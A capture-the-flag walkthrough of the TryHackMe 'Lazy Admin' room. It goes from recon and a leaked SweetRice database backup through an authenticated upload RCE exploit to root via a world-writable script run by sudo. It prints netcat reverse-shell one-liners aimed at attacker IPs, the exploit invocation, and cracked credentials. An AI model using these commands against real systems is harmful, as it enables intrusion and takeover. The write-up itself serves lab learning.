








# Lazy Admin

**Room:** [Lazy Admin](https://tryhackme.com/room/lazyadmin) · **Difficulty:** Easy · **OS:** Linux

A SweetRice CMS install leaves a full SQL backup sitting in a browsable directory, and that backup contains the admin panel's MD5 password hash. Cracking it gets CMS access, and a public authenticated file-upload exploit for this exact SweetRice version turns that login into a reverse shell. Root comes from a `sudo`-allowed Perl script that simply calls a world-writable shell script.

---

## 1. Reconnaissance

### Port scan

```bash
nmap -p- --min-rate 1000 -T4 -Pn -sV -oA nmap_full_scan 10.49.155.207
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Content discovery

```bash
ffuf -u "http://10.49.155.207/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```

```text
content                 [Status: 301]
```

```bash
ffuf -u "http://10.49.155.207/content/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -r
```

```text
_themes                 [Status: 200]
as                      [Status: 200]
attachment              [Status: 200]
images                  [Status: 200]
inc                     [Status: 200]
js                      [Status: 200]
```

---

## 2. Finding the CMS and its leaked backup

`/content/_themes/` is directory-listable and shows a `default` theme folder, confirming a themed CMS install:



`/content/as/` is the CMS's admin login page:



`/content/inc/` is also directory-listable, and includes a suspicious `mysql_backup/` folder sitting right in the web root:



Fetching the `.sql` file inside it dumps the entire database, including the `%_options` table that stores the admin account:

```bash
curl http://10.49.155.207/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
```

```text
INSERT INTO `%--%_options` VALUES('1','global_setting','a:17:{...
  s:5:\"admin\";s:7:\"manager\";
  s:6:\"passwd\";s:32:\"42f749ade7f9e195bf475f37a44cafcb\";
  ...}','1575023409');
```



```text
username: manager
password hash (MD5): 42f749ade7f9e195bf475f37a44cafcb
```

### Cracking the hash

```text
42f749ade7f9e195bf475f37a44cafcb -> Password123
```



### Logging in

```bash
curl -i 'http://10.49.155.207/content/as/?type=signin&timeStamp=<ts>' \
  --data 'user=manager&passwd=Password123&rememberMe='
```

```json
{"status":1,"statusInfo":"Login success"}
```





---

## 3. Foothold — authenticated SweetRice RCE

SweetRice **1.5.1** has a known authenticated file-upload RCE: a malicious ZIP uploaded through the media center auto-extracts, and a PHP shell hidden inside survives the extraction and lands in a web-accessible path:



```bash
python3 exploit.py \
  --target-ip 10.49.155.207 \
  --username manager \
  --password Password123 \
  --attacker-ip 192.168.158.240 \
  --port 4444 \
  --zip shell.zip
```

```text
SweetRice CMS (1.5.1) Remote Code Execution (Authenticated)
{"status":1,"statusInfo":"Login success"}
[+] Payload uploaded successfully
[+] Found payload: a1475d0bb744760fd4bc8b611492f759.php
[+] Triggering reverse shell...
```

### Stabilizing the shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
reset
```

### User flag

```bash
cd /home/itguy
cat user.txt
```

```text
THM{63e5bce9271952aad1113b6f1ac28a07}
```

---

## 4. Privilege escalation — writable backup script

```bash
sudo -l
```

```text
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

```bash
cat /home/itguy/backup.pl
```

```perl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

`backup.pl` runs as root with no password, and it just calls `/etc/copy.sh` — which is itself world-writable:

```bash
ls -la /etc/copy.sh
cat /etc/copy.sh
```

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Overwriting that script with a reverse shell pointed at the attacker and triggering the `sudo` Perl script runs it as root:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.158.240 5555 >/tmp/f' > /etc/copy.sh

nc -lvnp 5555

sudo /usr/bin/perl /home/itguy/backup.pl
```

### Root flag

```bash
cd /root
cat root.txt
```

```text
THM{6637f41d0177b6f37cb20d775124699f}
```
